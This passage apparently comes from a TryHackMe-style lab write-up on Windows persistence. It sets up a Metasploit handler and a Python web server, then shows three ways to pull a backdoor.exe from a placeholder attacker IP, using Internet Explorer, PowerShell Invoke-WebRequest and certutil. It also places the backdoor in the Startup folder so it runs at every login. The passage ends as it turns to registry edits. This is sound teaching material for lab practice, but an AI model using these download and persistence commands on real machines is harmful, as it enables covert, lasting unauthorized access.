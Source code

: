 ```bash
msf5> use exploit/multi/handler
```

Create a quick server with python

```bash
python -m SimpleHTTPServer 80
```

### Delivery methods

##### 1st

Go to Internet Explorer settings and choose "Internet Options"  
Click on the "Security" tab  
Select "Trusted Sites" and then click on the "Sites" button  
Fill the "Add this website to the zone" field with your IP address  
Click the "Add" button  
Navigate to your IP address and download the .exe  

##### 2nd

With Powershell

```powershell
Invoke-WebRequest http://<IP>/backdoor.exe -Outfile .\backdoor.exe
```

##### 3rd

With Powershell and Cmd

```powershell
certutil -urlcache -split -f http://<IP>/backdoor.exe
```

### Startup folder persistence

Supposing we do not consider privilege escalation is necessary and we just want
to have access to the system in case the user restarts the machine the simplest
method would be moving the backdoor to the startup folder.

The path of the startup folder is:

```bash
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.
```

`%username%` in our case is tryhackme.
Browse to that path and upload the binary you generated with msfvenom.

Since the binary is in the startup folder every time a user restarts its computer
and logs in the backdoor will be executed and Metasploit will receive the connection.

### Editing registries

Depending on the registries a low privileged user might be able to edit them.
With this in mind, an attacker could edit the registries to achieve persistence.
